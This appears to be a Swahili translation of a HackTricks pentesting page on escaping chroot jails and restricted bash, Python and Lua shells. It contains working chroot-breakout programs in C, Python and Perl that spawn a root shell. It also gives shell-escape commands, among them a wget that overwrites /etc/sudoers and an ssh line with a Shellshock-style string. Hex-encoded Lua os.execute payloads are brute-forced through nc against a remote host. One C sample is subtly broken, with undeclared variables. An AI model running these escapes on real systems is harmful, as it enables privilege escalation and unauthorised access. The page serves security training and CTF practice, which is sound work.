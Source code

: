 # Kutoroka kutoka kwa Jails

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

## **GTFOBins**

**Tafuta katika** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **kama unaweza kutekeleza binary yoyote yenye mali ya "Shell"**

## Chroot Escapes

Kutoka [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): Mekanismu ya chroot **haikusudiwi kulinda** dhidi ya kuingilia kati kwa makusudi na **watumiaji wenye mamlaka** (**root**). Katika mifumo mingi, muktadha wa chroot haujajumuika vizuri na programu zilizochrooted **zikiwa na mamlaka ya kutosha zinaweza kufanya chroot ya pili ili kutoroka**.\
Kawaida hii inamaanisha kwamba ili kutoroka unahitaji kuwa root ndani ya chroot.

{% hint style="success" %}
**Zana** [**chw00t**](https://github.com/earthquake/chw00t) iliumbwa ili kutumia hali zifuatazo na kutoroka kutoka `chroot`.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Ikiwa wewe ni **root** ndani ya chroot unaweza **kutoroka** kwa kuunda **chroot nyingine**. Hii ni kwa sababu chroots 2 cannot coexists (katika Linux), hivyo ikiwa utaunda folda na kisha **kuunda chroot mpya** kwenye folda hiyo mpya ukiwa **nje yake**, sasa utakuwa **nje ya chroot mpya** na hivyo utakuwa kwenye FS.

Hii inatokea kwa sababu kawaida chroot HAHAHUSU kazi yako ya saraka kwa ile iliyoonyeshwa, hivyo unaweza kuunda chroot lakini uwe nje yake.
{% endhint %}

Kawaida hutapata binary ya `chroot` ndani ya jela ya chroot, lakini unaweza **kuunda, kupakia na kutekeleza** binary:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Saved fd

{% hint style="warning" %}
Hii ni sawa na kesi ya awali, lakini katika kesi hii **mshambuliaji anahifadhi kiashiria cha faili kwa saraka ya sasa** na kisha **anaunda chroot katika folda mpya**. Hatimaye, kwa kuwa ana **ufikiaji** wa **FD** hiyo **nje** ya chroot, anaiweza na **anatoroka**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD inaweza kupitishwa kupitia Unix Domain Sockets, hivyo:

* Unda mchakato wa mtoto (fork)
* Unda UDS ili mzazi na mtoto waweze kuzungumza
* Endesha chroot katika mchakato wa mtoto katika folda tofauti
* Katika mchakato wa mzazi, unda FD ya folda ambayo iko nje ya chroot ya mchakato mpya wa mtoto
* Pitisha kwa mchakato wa mtoto hiyo FD kwa kutumia UDS
* Mchakato wa mtoto chdir kwa hiyo FD, na kwa sababu iko nje ya chroot yake, atakimbia kutoka gerezani
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* Kuunganisha kifaa cha mzizi (/) ndani ya folda ndani ya chroot
* Kuingia chroot katika folda hiyo

Hii inawezekana katika Linux
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Kuunganisha procfs ndani ya folda ndani ya chroot (ikiwa bado haijafanywa)
* Tafuta pid ambayo ina kiingilio tofauti cha root/cwd, kama: /proc/1/root
* Chroot katika kiingilio hicho
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Unda Fork (mchakato wa mtoto) na chroot katika folda tofauti ndani ya FS na CD juu yake
* Kutoka kwa mchakato wa mzazi, hamasisha folda ambapo mchakato wa mtoto uko katika folda ya awali ya chroot ya watoto
* Mchakato huu wa watoto utaona uko nje ya chroot
{% endhint %}

### ptrace

{% hint style="warning" %}
* Wakati fulani watumiaji wangeweza kubaini michakato yao wenyewe kutoka kwa mchakato wa wenyewe... lakini hii haiwezekani kwa kawaida tena
* Hata hivyo, ikiwa inawezekana, unaweza ptrace katika mchakato na kutekeleza shellcode ndani yake ([ona mfano huu](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Enumeration

Pata taarifa kuhusu gereza:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Modify PATH

Angalia kama unaweza kubadilisha variable ya mazingira ya PATH
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Kutumia vim
```bash
:set shell=/bin/sh
:shell
```
### Create script

Angalia kama unaweza kuunda faili inayoweza kutekelezwa yenye _/bin/bash_ kama maudhui
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Pata bash kutoka SSH

Ikiwa unapata kupitia ssh unaweza kutumia hila hii kutekeleza shell ya bash:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Tangaza
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Unaweza kuandika upya kwa mfano faili ya sudoers
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Njia Nyingine

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**Inaweza pia kuwa ya kuvutia ukurasa:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python Jails

Njia za kutoroka kutoka kwa jails za python katika ukurasa ufuatao:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Jails

Katika ukurasa huu unaweza kupata kazi za kimataifa unazo na ufikiaji ndani ya lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval na utekelezaji wa amri:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Baadhi ya mbinu za **kuita kazi za maktaba bila kutumia nukta**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
Orodhesha kazi za maktaba:
```bash
for k,v in pairs(string) do print(k,v) end
```
Kumbuka kwamba kila wakati unatekeleza mstari wa awali katika **mazingira tofauti ya lua, mpangilio wa kazi hubadilika**. Hivyo basi, ikiwa unahitaji kutekeleza kazi maalum unaweza kufanya shambulio la nguvu ya kikatili kwa kupakia mazingira tofauti ya lua na kuita kazi ya kwanza ya le maktaba:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Pata shell ya lua ya mwingiliano**: Ikiwa uko ndani ya shell ya lua iliyo na mipaka unaweza kupata shell mpya ya lua (na matumaini isiyo na mipaka) kwa kuita:
```bash
debug.debug()
```
## References

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Slides: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
